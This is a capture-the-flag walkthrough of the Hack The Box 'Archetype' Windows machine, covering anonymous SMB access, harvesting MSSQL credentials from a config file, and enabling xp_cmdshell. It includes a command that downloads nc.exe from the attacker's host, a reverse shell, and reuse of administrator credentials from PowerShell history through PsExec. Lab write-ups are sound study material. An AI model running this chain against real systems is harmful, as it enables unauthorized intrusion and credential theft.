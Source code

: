 # ARCHETYPE 

Tags : #windows #smb #mssql #impacket #powershellhistory #ConsoleHost_History #PSReadLine

## Platform : Windows
## IP Address : 10.10.10.27


Nmap Scan
All tcp port scan

```
arrow@ideapad:~/htb/archetype$ nmap -sV -Pn -p- --min-rate 300 -oA alltcp 10.10.10.27

Starting Nmap 7.60 ( https://nmap.org ) at 2021-05-16 15:33 IST
Stats: 0:02:57 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 72.75% done; ETC: 15:37 (0:01:06 remaining)
Nmap scan report for 10.10.10.27
Host is up (0.47s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server vNext tech preview 14.00.X
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

we can see smb file share 
lets view the shares and connect to them

```
arrow@ideapad:~/htb/archetype/smbmap$ smbclient -L 10.10.10.27
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\arrow's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
Connection to 10.10.10.27 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
arrow@ideapad:~/htb/archetype/smbmap$ smbclient \\\\10.10.10.27\\backups
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\arrow's password: 
Try "help" to get a list of possible commands.
smb: \> 


```


backups directory has anonymous access allowed.
lets see what are the contents inside the folder

```
smb: \> dir
  .                                   D        0  Mon Jan 20 17:50:57 2020
  ..                                  D        0  Mon Jan 20 17:50:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 17:53:02 2020

		10328063 blocks of size 4096. 8245514 blocks available
smb: \> 


```
there is a config file let's 
get onto our system 

```
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
```

let's view the contents of the file 

```
arrow@ideapad:~/htb/archetype$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

```
we got the userid and the password for mssql login
```
id - ARCHETYPE\sql_svc
password - M3g4c0rp123
```
now let's use impacket's mssql python script and login into the server

```
                                           
┌──(kali㉿kali)-[~/tools/scripts]
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth                                                           130 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
     
SQL> 


```
now type enable_xp_cmdshell to enable the cmd shell
after we can execute commands

```
SQL> xp_cmdshell whoami
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL> 

```

now upload nc.exe to windows machine into sql_svc user's Desktop

```
SQL> xp_cmdshell powershell wget -usebasicparsing http://10.10.17.29:8000/nc.exe -outfile C:\Users\sql_svc\Desktop\nc.exe
```
now get a reverse shell 

```
SQL> xp_cmdshell powershell wget -usebasicparsing http://10.10.17.29:8000/nc.exe -outfile C:\Users\sql_svc\Desktop\nc.exe
```
on our kali 
```
$ rlwrap nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:49739.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
archetype\sql_svc

C:\Windows\system32>

```

we need to get to system user
lets type **whoami /priv** to know what privileges we have 

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
we have **SeImpersonatePrivilege**
we can try potato exploits to get to system

I tried juicy potato but didnot work

Let's run WinPEAS 

on Running winpeas we have some credentials in powershell command history file 
```
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

```
credentials are 

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

We cannot run **runas** command because it asks for password 
so lets run **PsExec**

```
python3 PsExec.py Administrator@10.10.10.27 cmd
```
enter password and u will get shell

![alt root](/Pasted image 20210516192232.png)
